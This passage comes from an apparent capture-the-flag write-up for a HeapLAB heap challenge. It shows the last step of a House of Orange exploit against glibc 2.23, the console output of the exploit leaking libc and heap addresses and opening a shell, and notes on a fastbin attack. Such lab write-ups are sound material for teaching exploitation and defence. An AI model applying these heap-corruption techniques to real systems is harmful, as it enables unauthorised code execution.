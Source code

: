Right before triggering the exploit, our heap should look like in the following diagram:

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-10.png)

## Step 3 - Trigger the exploit!

Finally, we can trigger the House of Orange!

```python
# Trigger house of Orange and drop a shell.
malloc()
```

> ***Note:*** When attempted in production conditions, this exploit is not 100% reliable and need to be attempted multiple times. This is due to ASLR and specifically to the value the `_mode` field of `_IO_FILE` struct will get.

```bash
❯ ./xpl-nopause.py
[*] '/home/ubuntu/HeapLAB/challenge-one_byte/one_byte'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'../.glibc/glibc_2.23'
[*] '/home/ubuntu/HeapLAB/.glibc/glibc_2.23/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Starting local process '/home/ubuntu/HeapLAB/challenge-one_byte/one_byte'
[+] Starting local process '/home/ubuntu/HeapLAB/challenge-one_byte/one_byte': pid 1551
Leaked unsortedbin bk address: 0x7f4dbe399b78
Leaked libc adress:            0x7f4dbe000000
Leaked heap address:           0x61ba09ddb000
[*] Switching to interactive mode
*** Error in `/home/ubuntu/HeapLAB/challenge-one_byte/one_byte': malloc(): memory corruption: 0x00007f4dbe39a520 ***
$ whoami
ubuntu
```

# Other things that I have tried

## Attacking Fastbins

Creating `0x60` bytes reminder chunks allows us to free chunks that will end up in the `0x60` fastbin while we can read and write its content. That means we can add a `fd` pointer to arbitrary data and have malloc returning an arbitrary region of memory.
